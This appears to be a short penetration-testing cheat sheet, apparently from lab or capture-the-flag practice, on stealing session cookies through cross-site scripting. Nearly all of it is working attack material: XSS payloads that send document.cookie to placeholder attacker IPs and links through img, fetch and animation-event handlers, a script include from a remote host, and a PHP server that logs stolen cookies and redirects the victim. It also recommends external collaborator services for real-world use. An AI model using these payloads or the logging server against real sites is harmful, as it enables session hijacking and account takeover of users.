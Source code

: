If HttpOnly is of:
```html
"><img src=x onerror=prompt(document.domain)>

"><img src=x onerror=confirm(1)>

"><img src=x onerror=alert(1)>

<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://<VPN/TUN Adapter IP>:8000/log.php?c=' + document.cookie;"></video>

	
<script src="http://10.10.14.204:8888/?test=1" />
```

Server for recieving cookies:
```php
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

header("Location: http://www.google.com/");
exit;
?>
```

**N.B.** Use https://app.interactsh.com/#/ or Burp Collaborator for real word (bc of https)

HTTPS payload
```html
<h1 onmouseover='document.write(`<img src="https://CUSTOMLINK?cookie=${btoa(document.cookie)}">`)'>test</h1>
```
if CORS and SOP policy allows ajax-requests:
```html
<script>fetch(`http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}`)</script>
```
